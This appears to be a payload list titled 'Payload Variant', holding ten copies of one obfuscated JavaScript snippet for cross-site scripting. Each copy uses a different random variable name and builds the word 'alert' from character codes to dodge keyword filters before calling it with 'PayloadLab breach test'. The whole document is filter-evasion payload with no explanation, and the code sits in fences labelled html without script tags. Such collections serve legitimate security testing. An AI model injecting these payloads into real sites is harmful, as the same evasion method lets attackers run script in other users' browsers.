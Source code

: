 ### Payload Variant
```html
(function(){var lyLlIP=String.fromCharCode;var key=(lyLlIP(97)+lyLlIP(108)+lyLlIP(101)+lyLlIP(114)+lyLlIP(116));window[key]('PayloadLab breach test');})();
```

### Payload Variant
```html
(function(){var wbOidD=String.fromCharCode;var key=(wbOidD(97)+wbOidD(108)+wbOidD(101)+wbOidD(114)+wbOidD(116));window[key]('PayloadLab breach test');})();
```

### Payload Variant
```html
(function(){var VCcxnb=String.fromCharCode;var key=(VCcxnb(97)+VCcxnb(108)+VCcxnb(101)+VCcxnb(114)+VCcxnb(116));window[key]('PayloadLab breach test');})();
```

### Payload Variant
```html
(function(){var KMBkeH=String.fromCharCode;var key=(KMBkeH(97)+KMBkeH(108)+KMBkeH(101)+KMBkeH(114)+KMBkeH(116));window[key]('PayloadLab breach test');})();
```

### Payload Variant
```html
(function(){var qiVqPF=String.fromCharCode;var key=(qiVqPF(97)+qiVqPF(108)+qiVqPF(101)+qiVqPF(114)+qiVqPF(116));window[key]('PayloadLab breach test');})();
```

### Payload Variant
```html
(function(){var uGdrXr=String.fromCharCode;var key=(uGdrXr(97)+uGdrXr(108)+uGdrXr(101)+uGdrXr(114)+uGdrXr(116));window[key]('PayloadLab breach test');})();
```

### Payload Variant
```html
(function(){var gaRUMR=String.fromCharCode;var key=(gaRUMR(97)+gaRUMR(108)+gaRUMR(101)+gaRUMR(114)+gaRUMR(116));window[key]('PayloadLab breach test');})();
```

### Payload Variant
```html
(function(){var GASzFd=String.fromCharCode;var key=(GASzFd(97)+GASzFd(108)+GASzFd(101)+GASzFd(114)+GASzFd(116));window[key]('PayloadLab breach test');})();
```

### Payload Variant
```html
(function(){var nwAMPq=String.fromCharCode;var key=(nwAMPq(97)+nwAMPq(108)+nwAMPq(101)+nwAMPq(114)+nwAMPq(116));window[key]('PayloadLab breach test');})();
```

### Payload Variant
```html
(function(){var mnnoIw=String.fromCharCode;var key=(mnnoIw(97)+mnnoIw(108)+mnnoIw(101)+mnnoIw(114)+mnnoIw(116));window[key]('PayloadLab breach test');})();
```

